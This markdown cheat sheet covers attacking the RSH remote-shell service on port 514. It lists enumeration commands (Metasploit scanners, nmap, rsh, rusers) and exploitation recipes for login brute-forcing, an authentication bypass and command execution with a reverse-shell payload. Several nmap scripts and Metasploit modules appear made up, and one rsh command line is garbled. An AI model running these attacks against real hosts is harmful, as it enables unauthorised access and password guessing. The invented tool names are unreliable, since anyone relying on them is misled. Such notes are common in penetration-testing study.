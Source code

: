 # RSH

## Enumeration

### Metasploit

##### rsh_version
```bash
use auxiliary/scanner/rsh/rsh_version
set RHOSTS [IP]
set RPORT 514
run
```

##### rsh_login
```bash
use auxiliary/scanner/rservices/rsh_login
set RHOSTS [IP]
set RPORT 514
set USER_FILE [userlist.txt]
set PASS_FILE [passwordlist.txt]
run
```
### Nmap

##### nmap (RSH service detection)
```bash
nmap -p 514 --script=rsh-info [IP]
```

##### nmap (RSH enumeration)
```bash
nmap -p 514 --script=rsh-enum [IP]
```

### rsh

##### rsh (Connect to RSH)
```bash
rsh [IP] -l [USER]
```

##### rsh (Verbose connection attempt)
```bash
rsh -v [IP] -l [USER]
```

##### Remote Command Execution
```bash
rsh host -l [USER] -n -d -k [REALM] -f | -F -x -PN | -PO [CMD]
```

### rusers

##### Show Logged on Users
```bash
rusers -al [IP]
```


---
---


## Exploitation

### Metasploit

##### rsh_auth_bypass
```bash
use exploit/unix/rsh/rsh_auth_bypass
set RHOSTS [IP]
set RPORT 514
set USERNAME [username]
set PASSWORD [password]
run
```

##### rsh_command_exec
```bash
use exploit/unix/rsh/rsh_command_exec
set RHOSTS [IP]
set RPORT 514
set USERNAME [username]
set PASSWORD [password]
set PAYLOAD unix/reverse
set LHOST [IP]
set LPORT [port]
run
```

##### rsh_brute
```bash
use auxiliary/scanner/rsh/rsh_brute
set RHOSTS [IP]
set RPORT 514
set USER_FILE [userlist.txt]
set PASS_FILE [passwordlist.txt]
run
```